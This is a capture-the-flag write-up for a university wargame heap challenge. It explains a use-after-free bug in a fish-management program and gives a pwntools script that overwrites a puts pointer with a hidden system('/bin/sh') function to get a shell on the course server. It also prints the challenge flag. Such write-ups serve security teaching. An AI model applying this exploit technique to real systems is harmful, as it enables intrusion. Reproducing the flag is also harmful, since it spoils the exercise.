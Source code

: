 heap 2 | `babys_first_2`
===========================

Flag: `6447{b20e6d03-f58c-43b7-974a-f801bb9a2fb5}`

General overview of problems faced
-------------------------------------
Had to learn about UAF vulnerabilities and how to use and abuse them.

List of vulnerabilities
--------------------
1. `Use after free`: It is possible to create a fish, delete it and then view it after it has been delete.
2. When deleting a fish and freeing an allocated bin, the data is not overwriten/removed from memory. Therefore allocating another bin to the same address allows memory leaks and  overwriting of addresses which might still be used because of the UAF vulnerability
3. Each allocated bin when creating a fish contains an address to the `puts` function which is used during the program execution
4. The binary contains an unused function with a `system("/bin/sh")` call allowing an attack to point to it when doing stack or heap overflows.

Steps to exploit
------------------
1. Get the address of the function which calls a shell from the binary (0x080486C0)
2. Create a fish at position 0 with any size, weight and name
3. Delete the fish at position 0
4. Create a fish at position 1 with any size and weight but set the name to be 38 bytes of offset + the addres of the function you want to jump to in little endian format ("\xc0\x86\x04\x08")
5. View the fish you created
6. You now have a shell!

Script/Command used
------------------
```python
from pwn import *

#Flag: 6447{b20e6d03-f58c-43b7-974a-f801bb9a2fb5}

p = remote('wargames.6447.sec.edu.au', 9002)

p.sendlineafter("> ", "1") # create a fish
p.sendlineafter("> ", "0") # at position 0
p.sendlineafter("> ","10") # size
p.sendlineafter("> ","10") # weight
p.sendlineafter("> ","awesome name") # name

p.sendlineafter("> ","4") # delete fish
p.sendlineafter("> ","0") # at position 0

p.sendlineafter("> ","1") # create a fish
p.sendlineafter("> ","1") # at position 1
p.sendlineafter("> ","100") # size
p.sendlineafter("> ","100") # weight
p.sendlineafter("> ","A"*38 + "\xc0\x86\x04\x08") # name

p.sendlineafter("> ","3") # view fish
p.sendlineafter("> ","0") # at position 0

print p.recvrepeat(0.2)

p.interactive()
```
